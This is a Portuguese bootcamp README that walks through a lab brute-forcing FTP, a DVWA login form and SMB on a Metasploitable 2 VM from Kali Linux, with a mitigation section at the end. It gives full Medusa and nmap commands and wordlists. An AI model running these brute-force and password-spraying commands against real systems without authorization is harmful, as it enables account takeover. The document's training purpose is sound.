






# :test_tube: Detalhes do projeto Bootcamp - Cibersegurança

## 📌 Sobre o Projeto

Este projeto faz parte do Bootcamp de **Cibersegurança** oferecido pela **DIO (Digital Innovation One)** em parceria com a **Riachuelo**, e tem como objetivo demonstrar, na prática, a execução de ataques de força bruta (Brute Force) em um ambiente controlado utilizando:

- **Kali Linux** (Host do hacker)
- **Metasploitable 2** (Estação de aplicações)
- **Ferramenta Medusa** (Ferramenta do kali usada neste Lab)

Foram explorados três aplicações principais:

- :card_index_dividers: **FTP** (Servidor de compartilhamento de arquivos pela rede/internet)
- 🌐 **Aplicação Web (DVWA)** (Explorando pagina de login/formulário)
- :open_file_folder: **SMB** (password spraying)

---

## 🎯 Objetivos

- Simular ataques de força bruta em diferentes aplicações/serviços
- Utilizar ferramentas de pentest do kali (Medusa e Nmap)
- Explorar vulnerabilidades em ambientes inseguros (Portas e serviços)
- Documentar processos técnicos de forma estruturada
- Praticar segurança ofensiva em laboratório (Kali e Metasploit)

---

## :computer: Ambiente Utilizado :computer:

| Componente | Descrição |
|---|---|
| **Sistema do hacker** | Kali Linux |
| **Sistema do usuário** | Metasploitable 2 |
| **Ambiente do lab** | VirtualBox |
| **Conectividade** | Host-Only/Rede interna |

---

## ⚙️ Configuração do Lab

### 🖥️ Virtuais Hosts (VMs)

Para o laboratório foi utilizado o VirtualBox (virtualizador) de VMs, Conectividade e outros recursos.


*Máquinas importadas no VirtualBox — Metasploitable e Kali Linux em execução simultânea*


*Interface do Kali Linux e metasploitable*

---

### 🔐 Informações importantes do Metasploitable

A máquina alvo é um host intencionalmente vulnerável.


*comando **cat /etc/lsb-release** para obter informações do sistema*

**Credenciais padrão:** `msfadmin` / `msfadmin`

---

### 🌐 Identificação do IP e teste de conectividade

Comandos utilizados para localizar o ip do host alvo e testando a conectividade:

```bash
ip a
para mostrar o ip do metasploitable
ping 192.168.56.101
para testar a conectividade entre os hosts
```


*Endereço IP identificado no Metasploitable via comando `ip a`*

**IP utilizado no laboratório:** `192.168.56.101`

### ✔️ Teste de Conectividade

Antes de iniciar os ataques, foi realizado um teste para validar a comunicação entre as máquinas:

```bash
ping 192.168.56.101 - CTRL + c para interromper o ping

```

### ✔️ Utilizando o Nmap para encontrar portas e serviços no host/rede

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.101
```


*Resultado da varredura Nmap — serviços FTP, SSH, HTTP e SMB identificados*

Serviços identificados:

| Porta | Serviço | Versão |
|---|---|---|
| 21/tcp | FTP | vsftpd 2.3.4 |
| 22/tcp | SSH | OpenSSH 4.7p1 |
| 25/tcp | SMTP| SMTPD         |
| 53/tcp | DOMAIN | ISC BIND 9.4.2 |
| 80/tcp | HTTP | Apache httpd 2.2.8 |
| 139/tcp | NetBIOS-SSN | Samba smbd 3.X – 4.X |
| 445/tcp | NetBIOS-SSN | Samba smbd 3.X – 4.X |

---

## 🔐 Cenário 1: Força Bruta em FTP

### ✔️ Criação das Wordlists

Foram criadas duas listas de usuários e senhas para uso da ferramenta Medusa:

```bash
echo -e "user\nadmin\nmsfadmin\nroot" > users.txt
echo -e "123456\npassword\nmsfadmin\nadmin" > passwd.txt
```


*visualizando os arquivos `users.txt` e `passwd.txt` utilizados no ataque*

### ✔️ Execução do Ataque com Medusa

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```


*Medusa testando combinações de usuários e senhas no serviço FTP*

### ✔️ Resultado

O ataque identificou credenciais válidas:

- **Usuário:** `msfadmin`
- **Senha:** `msfadmin`

### ✔️ Validação de Acesso

```bash
ftp 192.168.56.101
```


*Acesso autenticado com sucesso via FTP utilizando as credenciais descobertas*

---

## 🌐 Ataque 2: Força Bruta em Aplicação Web (DVWA)

### ✔️ Acesso à Aplicação

A aplicação vulnerável DVWA foi acessada pelo navegador:

```
http://192.168.56.101/dvwa/login.php
```


*Formulário de login da aplicação DVWA acessado via navegador no Kali Linux*

### ✔️ Execução do Ataque com Medusa

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m FAIL='Login failed' -t 6
```


*Ataque automatizado no formulário de login — múltiplas credenciais válidas encontradas*

### ✔️ Resultado

Foram encontradas múltiplas credenciais válidas (`user`, `admin`, `msfadmin`, `root`), demonstrando a ausência de mecanismos de proteção contra ataques de força bruta na aplicação.

---

## 💻 Ataque 3: Password Spraying em SMB

### ✔️ Criação das Listas

```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt
```

### ✔️ Execução do Ataque

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```


*Execução de password spraying no serviço SMB — acesso de administrador confirmado*

### ✔️ Resultado

Credenciais válidas identificadas:

- **Usuário:** `msfadmin`
- **Senha:** `msfadmin`
- **Nível de acesso:** `ADMIN$` (Access Allowed)

---

## 🛡️ Mitigações de Segurança

### 🔐 FTP
- Desativar login anônimo
- Limitar tentativas de autenticação (rate limiting)
- Substituir por SFTP/FTPS e utilizar senhas fortes

### 🌐 Aplicações Web
- Implementar CAPTCHA após tentativas falhas
- Bloquear ou retardar múltiplas tentativas de login
- Utilizar autenticação multifator (MFA)

### 💻 SMB
- Aplicar políticas de senha robustas
- Implementar bloqueio de conta após tentativas inválidas
- Monitorar logs e alertar sobre tentativas suspeitas de acesso

---

## 📚 Conclusão

Este laboratório demonstrou como sistemas com configurações inseguras e senhas fracas podem ser comprometidos facilmente através de ataques automatizados.

A utilização da ferramenta **Medusa** evidenciou a importância de controles de segurança adequados, como limitação de tentativas, políticas de senha robustas e monitoramento contínuo — especialmente em serviços amplamente expostos como FTP, HTTP e SMB.

---

## 🧰 Ferramentas Utilizadas

- [Kali Linux](https://www.kali.org/)
- [Medusa](http://foofus.net/goons/jmk/medusa/medusa.html)
- [Nmap](https://nmap.org/)
- [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [DVWA](https://dvwa.co.uk/)
- [VirtualBox](https://www.virtualbox.org/)

---

## ⚠️ Aviso Legal

> Este projeto foi desenvolvido **exclusivamente para fins educacionais** em ambiente controlado e isolado.
>
> **Não utilize essas técnicas em sistemas reais sem autorização prévia.** O uso não autorizado dessas ferramentas pode constituir crime previsto na legislação vigente.